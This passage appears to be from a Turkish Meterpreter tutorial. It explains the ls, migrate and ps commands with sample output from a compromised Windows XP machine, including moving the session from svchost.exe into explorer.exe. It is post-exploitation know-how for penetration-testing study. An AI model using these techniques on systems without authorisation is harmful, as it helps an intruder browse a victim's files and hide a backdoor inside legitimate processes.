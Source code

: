 

## ls



Linux İşletim sistemindeki `ls` komutuyla aynı işlemi yapar. Bulunulan klasördeki dosya ve klasörleri listeler.


```bash
meterpreter **&gt;** ls

Listing: C:\Documents and Settings\victim
**=========================================**

Mode              Size     Type  Last modified                   Name
----              ----     ----  -------------                   ----
40777/rwxrwxrwx   0        dir   Sat Oct 17 07:40:45 -0600 2009  .
40777/rwxrwxrwx   0        dir   Fri Jun 19 13:30:00 -0600 2009  ..
100666/rw-rw-rw-  218      fil   Sat Oct 03 14:45:54 -0600 2009  .recently-used.xbel
40555/r-xr-xr-x   0        dir   Wed Nov 04 19:44:05 -0700 2009  Application Data
...snip...
```



## migrate



Meterpreter sunucumuz, karşı tarafta svchost.exe dosyasının içinde çalışıyor olabilir. Bunu başka bir programın içine gömülü hale getirmek istediğimizde `migrate` yani “göç et” komutunu kullanırız.


```bash
meterpreter &gt; run post/windows/manage/migrate 

[*] Running module against V-MAC-XP
[*] Current server process: svchost.exe (1076)
[*] Migrating to explorer.exe...
[*] Migrating into process ID 816
[*] New server process: Explorer.EXE (816)
meterpreter &gt;
```



## ps



Hedef bilgisayarda çalışan tüm işlemleri görüntüler.


```bash
meterpreter **&gt;** ps

Process list
**============**

    PID   Name                  Path
    ---   ----                  ----
    132   VMwareUser.exe        C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    152   VMwareTray.exe        C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    288   snmp.exe              C:\WINDOWS\System32\snmp.exe
...snip...
```

